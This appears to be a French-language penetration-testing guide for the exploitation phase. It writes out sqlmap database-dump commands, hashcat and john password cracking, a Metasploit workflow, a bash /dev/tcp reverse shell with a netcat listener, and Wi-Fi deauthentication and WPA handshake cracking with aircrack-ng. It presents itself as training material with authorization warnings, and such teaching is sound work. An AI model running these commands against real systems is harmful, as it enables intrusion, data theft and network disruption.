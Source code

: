 # ⚡ GUIDE MÉTHODOLOGIQUE - PHASE D'EXPLOITATION

> ⚠️ **AVERTISSEMENT CRITIQUE** ⚠️
>
> - 🚨 CETTE PHASE NÉCESSITE UNE **AUTORISATION ÉCRITE EXPLICITE**.
> - 🚨 N'UTILISEZ CES TECHNIQUES QUE SUR VOS **PROPRES SYSTÈMES EN LABORATOIRE**.
> - 🚨 L'EXPLOITATION SANS AUTORISATION EST **ILLÉGALE**.

---

## 🎯 ÉTAPE 1 : EXPLOITATION WEB

### 1.1 Test d'Injection SQL (si une vulnérabilité est suspectée)
- **Outil**: `sqlmap`
- **Commande de détection**:
  ```bash
  sqlmap -u "http://target.com/page.php?id=1" --dbs
  ```
- **Commande d'extraction de données**:
  ```bash
  sqlmap -u "http://target.com/page.php?id=1" -D <database_name> -T <table_name> --dump
  ```

### 1.2 Crack de Mots de Passe (si des hashes ont été trouvés)
- **Outils**: `hashcat` ou `john`
- **Exemple avec Hashcat (MD5)**:
  ```bash
  hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
  ```
- **Exemple avec John (Hashes WordPress)**:
  ```bash
  john --format=phpass hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

---

## 🎯 ÉTAPE 2 : EXPLOITATION DE SERVICES RÉSEAU

### 2.1 Utilisation de Metasploit
À utiliser si une vulnérabilité connue et "exploitable" a été identifiée (ex: MS17-010, ProFTPD 1.3.5, etc.).
- **Outil**: `msfconsole`
- **Workflow de base**:
  ```bash
  # Lancer Metasploit
  msfconsole
  # Rechercher l'exploit
  msf > search <NOM_VULNERABILITE>
  # Sélectionner l'exploit
  msf > use <CHEMIN_EXPLOIT>
  # Configurer la cible
  msf > set RHOSTS <IP_CIBLE>
  # Lancer l'attaque
  msf > exploit
  ```

### 2.2 Obtention d'un Reverse Shell
Si vous trouvez une vulnérabilité de type "Remote Code Execution" (RCE), vous pouvez obtenir un shell.
- **Avec Netcat (simple)**:
  - Sur votre machine (écoute) : `nc -nvlp 4444`
  - Sur la machine cible (à exécuter via la vulnérabilité) : `bash -i >& /dev/tcp/<VOTRE_IP>/4444 0>&1`
- **Avec Socat (plus stable)**:
  - Sur votre machine (écoute) : `socat file:`tty`,raw,echo=0 tcp-listen:4444`

---

## 🎯 ÉTAPE 3 : EXPLOITATION WI-FI (Environnement contrôlé)

### 3.1 Capture de Handshake WPA/WPA2
- **Outils**: Suite Aircrack-ng
- **Commandes**:
  ```bash
  # 1. Activer le mode moniteur
  sudo airmon-ng start wlan0
  # 2. Cibler le point d'accès pour capturer le handshake
  sudo airodump-ng -c <CANAL> --bssid <BSSID_CIBLE> -w capture wlan0mon
  # 3. (Optionnel) Déconnecter un client pour forcer une nouvelle poignée de main
  sudo aireplay-ng -0 5 -a <BSSID_CIBLE> -c <CLIENT_MAC> wlan0mon
  ```

### 3.2 Crack du mot de passe
- **Outil**: `aircrack-ng`
- **Commande**:
  ```bash
  aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
  ```

---

## 🚨 CHECKLIST DE SÉCURITÉ AVANT ACTION
- [ ] Avez-vous l'autorisation **écrite** ?
- [ ] Êtes-vous certain que l'IP cible est la bonne et qu'elle est dans le périmètre autorisé ?
- [ ] Avez-vous un plan pour documenter chaque action et ses résultats ?
- [ ] Avez-vous un plan de restauration en cas de problème ?

---

## ➡️ PROCHAINE ÉTAPE
Après une exploitation réussie, la phase suivante est la **post-exploitation** (maintien d'accès, élévation de privilèges, etc.).
